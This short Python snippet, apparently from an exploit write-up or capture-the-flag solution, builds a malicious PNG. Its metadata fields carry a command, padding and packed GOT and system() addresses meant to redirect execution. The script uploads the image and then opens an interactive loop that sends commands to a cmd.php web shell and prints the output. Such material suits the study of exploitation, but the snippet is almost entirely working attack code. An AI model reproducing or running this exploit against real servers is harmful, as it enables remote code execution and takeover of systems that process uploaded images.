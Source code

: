 ```python3

meta["Artist"] = CMD2 + b"A" * (56 - len(CMD2)) + p64(GOT)
meta["Title"] = CMD1
meta["Copyright"] =  p64(SYSTEM)

write_png_metadata(image, meta)

res = upload(image)

while True:
    cmd = input("$ ")
    print(get(URL + f"/cmd.php?cmd={cmd}").text)
```